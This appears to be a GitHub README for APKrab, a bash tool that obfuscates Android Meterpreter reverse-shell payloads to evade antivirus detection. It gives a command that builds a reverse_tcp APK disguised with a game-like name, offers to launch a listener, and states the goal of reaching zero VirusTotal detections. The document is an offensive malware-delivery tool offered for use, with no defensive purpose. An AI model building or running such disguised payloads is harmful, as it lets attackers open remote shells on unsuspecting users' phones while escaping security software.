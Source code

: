 # Deppendencies

# APKrab
APKrab is a dummy bash script to obfuscate android meterpreter by mixing names and permissions in AndroidManifest.xml and other files and directories
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/vmplayer_R3kyjZHvkA.jpg)

# Usage
First we must give execution permissions with chmod +x APKrab.sh
Then we can do for example:
./APKrab.sh -p android/meterpreter/reverse_tcp -H 10.0.0.16 -P 7777 -o amon-us.apk

APKrab also has default options we can use them with:
./APKrab.sh -g
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/vmplayer_ZW2I2Xya03.jpg)

At the end APKrab will ask to generate a msfvemon listener if so then it will ask to launch it
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/vmplayer_Icsbs5mvuD.jpg)

# virustotal results (DONT UPLOAD YOUR SAMPLES TO VIRUSTOTAL)
In this example we hit 16/63 in virustotal so hope with the time and your modifications we can hit 0 flagged
